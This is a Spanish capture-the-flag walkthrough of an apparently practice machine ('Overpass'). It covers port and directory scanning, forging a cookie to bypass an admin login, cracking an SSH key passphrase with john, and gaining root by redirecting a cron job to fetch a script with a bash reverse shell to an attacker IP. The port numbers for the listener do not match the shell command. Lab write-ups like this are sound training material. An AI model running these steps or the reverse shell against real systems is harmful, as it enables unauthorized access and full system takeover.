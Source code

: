 # Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.36.26
```
![[Pasted image 20240501183622.png]]
## Reconocimiento de servicios
```
nmap -sVC -p22,80 -Pn 10.10.36.26
```
![[Pasted image 20240501183722.png]]
## Gobuster
```
gobuster dir -u http://10.10.36.26 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

![[Pasted image 20240501183933.png]]
# Fase de ataque
Tenemos un Javascript en /admin que cuando inicia sesión con la contraseña correcta crea una Cookie.
1. Creamos una Cookie con ese nombre y cualquier valor
![[Pasted image 20240501185742.png]]
2. Copiamos la clave privada SSH
3. Nos conectamos por SSH
```
ssh saad@10.10.39.180 -i id_rsa 
```
Pide passphrase
## Crack passphrase
1. Convertimos la clave privadaa formato john
```
ssh2john id_rsa > id_rsa.john
```
2. La crackeamos con john
```
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240501190250.png]]
Found!
3. Nos conectamos por SSH
```
ssh saad@10.10.39.180 -i id_rsa 
```
[-] ==pwned!==
# Privilege Escalation
Como ellos crearon su propio password manager tienen las claves guardadas en .overpass
Encontramos la contraseña de James pero no sirve para mucho

Tiene un crontab del overpass. /etc/crontab
![[Pasted image 20240501191937.png]]
1. Creamos un servidor web
```
python3 -m http.server 80
```
2. Creamos los directorios del crontab
```
mkdir /dowloads/src
```
3. Creamos el fichero buildscript.sh con nuestra reverse shell
```
bash -i >& /dev/tcp/10.9.2.97/1111 0>&1
```
4. Nos ponemos en escucha por el puerto 111 para recibir la Shell
``` 
nc -nlvp 443
```
5. Modificamos el /etc/hosts de la maquina para que overpass.thm redirija a nuestro servidor
![[Pasted image 20240501193602.png]]

[+] ==pwned!==